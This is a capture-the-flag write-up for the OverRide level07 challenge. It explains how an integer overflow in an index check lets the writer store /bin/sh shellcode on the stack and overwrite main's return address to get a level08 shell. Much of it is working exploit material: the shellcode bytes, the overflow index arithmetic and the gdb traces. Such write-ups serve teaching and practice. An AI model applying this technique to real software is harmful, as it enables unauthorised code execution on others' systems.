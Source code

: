 # Tools
[Dogbolt - Decompiler Explorator](https://dogbolt.org/)
[Cutter - Reverse Engineering Tool](https://cutter.re/)
[GNU DeBugger - GDB](https://fr.wikipedia.org/wiki/GNU_Debugger)

# Exploit 
Level07 calls on your analysis capabilities to find the cracks into a "secured" program.

# Explanation
Start of the nbs buffer at: `0xffffd528` (1073741824 is an index that will write result in index 0, see below)
```
Input command: store
 Number: 1094795585
 Index: 1073741824
 Completed store command successfully
(gdb) x/20x $esp
...
0xffffd520:	0x00000000	0x41414141	0x00000000	0x00000000
...
```

What we want to do is write a shellcode inside of the stack using the store option of the program.

Shellcode (see Resources at the bottom of the page): 
```
"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
```

```
Shellcode in dwords:
0xe1f7c931 0x2f2f6851 0x2f686873 0x896e6962 0xcd0bb0e3 0x00000080
Addresses at which to write each shellcode dword:
0xffffd524 0xffffd528 0xffffd52c 0xffffd530 0xffffd534 0xffffd538
```

Now, let's bypass the restricted index security.
The max value for an unsigned int is `4294967295`.
The index we provide is going to be multiplied by 4 (the size of an int) to resolve the address at which the number must be placed in `nbs`.
Thus, we could overflow index by using `4294967295 / 4 + desired_index + 1`. When a space is reserved by will using that method, we can still use the normal way of storing numbers.

See `Resources/test.c` for the debug information I added.

Writing to the first addresses of `nbs`:
```
Input command: store
 Number: 1
 Index: 1073741824
Unum: 1
Index: 1073741824
Index*Sizeof(int): 0
 Completed store command successfully
Input command: store
 Number: 1
 Index: 1073741825
Unum: 1
Index: 1073741825
Index*Sizeof(int): 4
 Completed store command successfully
Input command: store
 Number: 1
 Index: 1073741827
Unum: 1
Index: 1073741827
Index*Sizeof(int): 12
 Completed store command successfully
Input command: store
 Number: 1
 Index: 1073741826
Unum: 1
Index: 1073741826
Index*Sizeof(int): 8
Mod: 1 / other: 0
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
Input command: store
 Number: 1
 Index: 2
Unum: 1
Index: 2
Index*Sizeof(int): 8
 Completed store command successfully
Input command: read
 Index: 0
 Number at data[0] is 1
 Completed read command successfully
Input command: read
 Index: 1
 Number at data[1] is 1
 Completed read command successfully
Input command: read
 Index: 2
 Number at data[2] is 1
 Completed read command successfully
Input command: read
 Index: 3
 Number at data[3] is 1
 Completed read command successfully
```

Now, to hijack the execution, we want to overwrite the return address of the `main` function.

Before overwriting:
```
(gdb) x/120x $esp
...
0xffffd6e0:	0x00000000	0x00000000	0x00000000	0xf7e45513
...
```
`0xf7e45513` is the return address of main in `__libc_start_main`
```
(gdb) x 0xf7e45513
0xf7e45513 <__libc_start_main+243>:	0xe8240489
```
We calculate the offset with the start of the `nbs` buffer:
`RETURN_ADDR - START_ADDR = 0xf7e45513 - 0xffffd528 = 0x1bc = 444` 
After some figeting, we see that the index at which we must put the value is: `1073741938`, approximately calculated with the formula `4294967295 / 4 + desired_offset / 4 + 4`, where desired offset here is 444.

We thus get: `1073741938`, and we can write `beefdead` where the return address is being stored:
```
Input command: store
 Number: 3203391149
 Index: 1073741938
 Completed store command successfully

Breakpoint 1, 0x080488ea in main ()
(gdb) x/200x $esp
0xffffd500:	0xffffd524	0x00000014	0xf7fcfac0	0xf7fdc714
...
0xffffd6e0:	0x00000000	0x00000000	0x00000000	0xbeefdead
...
```
After overwriting the return address (see the `0xbeefdead`?):
```
0xffffd6e0:	0x00000000	0x00000000	0x00000000	0xbeefdead
```
Which causes a segfault:
```
Program received signal SIGSEGV, Segmentation fault.
0xbeefdead in ?? ()
```

Next time, instead of writing `beefdead`, we write `0xffffd524` (int: `4294956324`), the start address of the `nbs` buffer!

Now, let's pack the shellcode and the return address modification to get the flag!

To make things more simple, I have ran the exploit with `env -i` some addresses might have shifted between the explanations and the actual exploit.
See `Resources/script.py`.
```
level07@OverRide:~$ python script.py > input && cat input - | env -i level07
...
whoami
level08
```

# Resources
[Shellcode from kernel_panik](https://shell-storm.org/shellcode/files/shellcode-752.html)